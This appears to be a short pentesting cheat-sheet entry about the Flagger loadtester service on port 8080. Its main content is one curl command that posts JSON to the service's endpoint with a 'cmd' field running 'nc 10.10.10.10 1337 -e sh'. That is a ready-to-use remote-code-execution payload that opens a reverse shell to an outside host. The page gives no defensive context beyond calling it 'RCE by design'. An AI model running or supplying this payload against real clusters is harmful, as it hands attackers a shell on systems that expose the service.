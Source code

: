 ```yaml
---
description: port 8080
---
```


# Flagger

### RCE

Provides RCE by design

```bash
curl -XPOST http://flagger-loadtester.test:8080/ \
      -H "Content-Type: application/json"   \
      -d '{"metadata": {"cmd": "nc 10.10.10.10 1337 -e sh"}}'
```
